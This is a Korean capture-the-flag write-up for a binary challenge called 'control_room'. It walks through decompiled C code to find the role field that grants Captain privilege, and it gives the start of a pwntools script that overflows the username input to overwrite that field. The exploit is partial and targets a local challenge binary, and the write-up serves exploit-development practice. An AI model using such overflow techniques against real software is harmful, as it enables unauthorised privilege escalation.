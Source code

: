```c
        check_engines();
        break;
      case 3u:
        change_route();
        break;
      case 4u:
        view_route();
        break;
      case 5u:
        change_role();
        break;
      default:
        log_message(3u, "Invalid option\n");
        exit(-1);
    }
  }
}
```

`menu`함수를 살펴보자. 

실행 했을 때 보았던, 권한을 출력하는 함수가 보인다. 해당 함수를 살펴보자.`

```c
int print_current_role()
{
  int v0; // eax

  v0 = *((_DWORD *)curr_user + 64);
  if ( v0 == 2 )
    return log_message(1u, "Current Role: Crew\n");
  if ( v0 > 2 )
    goto LABEL_9;
  if ( !v0 )
    return log_message(1u, "Current Role: Captain\n");
  if ( v0 != 1 )
  {
LABEL_9:
    log_message(3u, "How did you get here?!\n");
    exit(1337);
  }
  return log_message(1u, "Current Role: Technician\n");
}
```

해당 함수에서, v0가 role을 구분하는 주요 변수로 확인되며, `int`형의 `(curr_user + 64)`만큼의 주소에 해당 값이 저장 됨을 알 수 있다. 또한,, 해당 값이 0이라면, `Captain`권한임을 확인할 수 있었다.

이를 통해, 우리는 `user_edit`함수를 통해, 해당값을 0으로 세팅할 수 있을 것임을 확인 할 수 있다.

```python
from pwn import *

def slog(k, v): return success(f" : ".join([k, hex(v)]))

p = process('./control_room_patched')
e = ELF('./control_room_patched')

context.log_level='debug'

payload = b'A' * 0x100
p.sendlineafter(b'Enter a username: ', payload)
p.sendlineafter(b'size: ', b'256')
payload = b'A'*0x9F
p.sendlineafter(b'username: ', payload)

```